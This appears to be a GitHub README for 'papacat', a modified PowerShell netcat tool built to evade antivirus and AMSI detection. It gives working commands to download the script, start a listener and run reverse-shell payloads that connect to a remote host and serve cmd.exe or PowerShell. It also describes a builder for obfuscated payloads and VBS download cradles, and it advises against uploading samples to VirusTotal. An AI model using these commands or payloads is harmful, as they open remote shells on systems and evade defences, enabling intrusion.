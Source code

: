      powercat - Netcat, The Powershell Version
     Github Repository: https://github.com/besimorhino/powercat
     
     This script attempts to implement the features of netcat in a powershell
     script. It also contains extra features such as built-in relays, execute
     powershell, and a dnscat2 client. 
     
     Redpill papacat version its a modified version of powercat to bypass AV AMS1 detection.
     
     
     Usage: papacat [-c or -l] [-p port] [options]
     -c  <ip>        Client Mode. Provide the IP of the system you wish to connect to.
                     If you are using -dns, specify the DNS Server to send queries to.
            
     -l              Listen Mode. Start a listener on the port specified by -p.
  
     -p  <port>      Port. The port to connect to, or the port to listen on.
  
     -e  <proc>      Execute. Specify the name of the process to start.
  
     -ep             Execute Powershell. Start a pseudo powershell session. You can
                     declare variables and execute commands, but if you try to enter
                     another shell (nslookup, netsh, cmd, etc.) the shell will hang.
            
     -t  <int>       Timeout. The number of seconds to wait before giving up on listening or
                     connecting. Default: 60
            
     -i  <input>     Input. Provide data to be sent down the pipe as soon as a connection is
                     established. Used for moving files. You can provide the path to a file,
                     a byte array object, or a string. You can also pipe any of those into
                     papacat, like 'aaaaaa' | papacat -c 10.1.1.1 -p 80
            
     -o  <type>      Output. Specify how papacat should return information to the console.
                     Valid options are 'Bytes', 'String', or 'Host'. Default is 'Host'.
            
     -of <path>      Output File.  Specify the path to a file to write output to.
            
     -d              Disconnect. papacat will disconnect after the connection is established
                     and the input from -i is sent. Used for scanning.
            
     -rep            Repeater. papacat will continually restart after it is disconnected.
                     Used for setting up a persistent server.
                  
     -g              Generate Payload.  Returns a script as a string which will execute the
                     papacat with the options you have specified. -i, -d, and -rep will not
                     be incorporated.
                  
     -ge             Generate Encoded Payload. Does the same as -g, but returns a string which
                     can be executed in this way: powershell -E <encoded string>
     -h              Print this help message.
     
     Examples:
     Listen on port 8000 and print the output to the console.
         papacat -l -p 8000 -v
  
     Connect to 10.1.1.1 port 443, send a shell, and enable verbosity.
         papacat -c 10.1.1.1 -p 443 -e cmd -v
  
     Send a file to 10.1.1.15 port 8000.
         papacat -c 10.1.1.15 -p 8000 -i C:\inputfile
  
     Write the data sent to the local listener on port 4444 to C:\outfile
         papacat -l -p 4444 -of C:\outfile
  
     Listen on port 8000 and repeatedly server a powershell shell.
         papacat -l -p 8000 -ep -rep -v

<br />

# papacat Manual Execution

<br />

#### Download cmdlet
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/utils/papacat_rev_shell/papacat.ps1" -OutFile "papacat.ps1"
```

<br />

#### handler (listenner)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -l -p 666 -t 120 -v
```

#### Cmd Client (payload)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -e cmd.exe -p 666 -v
```

#### powershell Client (payload)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -ep -p 666 -v
```

---

<br /><br />

# papacat Automation - Obfuscation

[Builder.ps1](https://github.com/r00t-3xp10it/redpill/blob/main/utils/papacat_rev_shell/Builder.ps1) cmdlet automates the creation of papacat reverse tcp shell ( crandle + payload + handler )<br />and encode\decode tcp data flow if invoked `-action 'rawcat' -force 'true'` parameters.<br />
GitHub: [https://github.com/r00t-3xp10it/redpill/blob/main/utils/papacat_rev_shell/Builder.ps1](https://github.com/r00t-3xp10it/redpill/blob/main/utils/papacat_rev_shell/Builder.ps1)<br />
Encode\Decode tcp data flow: [ired.team/bypassing-ids-signatures-with-simple-reverse-shells](https://www.ired.team/offensive-security/defense-evasion/bypassing-ids-signatures-with-simple-reverse-shells)


<br />

|Parameter Name|Description|Default Value|Optional value|
|---|---|---|---|
|action|creates raw\obfuscated client (payload)|obfuscate|rawcat|
|ClientName|Reverse tcp shell name (payload)|revshell|user_input|
|VbsName|Vbscript download crandle name|update|user_input|
|Execute|name of the process to start|cmd.exe|powershell.exe|
|TimeOut|seconds to wait before giving up on listening|120|user_input|
|serverPort|Python3 http.server port number|8080|user_input|
|PayloadPort|Reverse tcp shell port number (payload)|666|user_input|
|Force|Disable AV sample submition (local + remote)<br />and encodes client\server tcp data flow if invoked together with -action 'rawcat'|false|true|

<br />

#### Download cmdlet
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/utils/papacat_rev_shell/Builder.ps1" -OutFile "Builder.ps1"
```

#### cmdlet help
```powershell
Get-Help .\Builder.ps1 -full
```

#### execute cmdlet with default values
```powershell
.\Builder.ps1
```

![papacat](https://user-images.githubusercontent.com/23490060/155855813-ff5f7cb3-8156-4e16-8fc7-893e30ced7e6.png)

<br />

#### URLs
https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1<br />
https://www.ired.team/offensive-security/defense-evasion/bypassing-ids-signatures-with-simple-reverse-shells

# Final Notes
Dont Test this on VirusTotal or similar websites ...
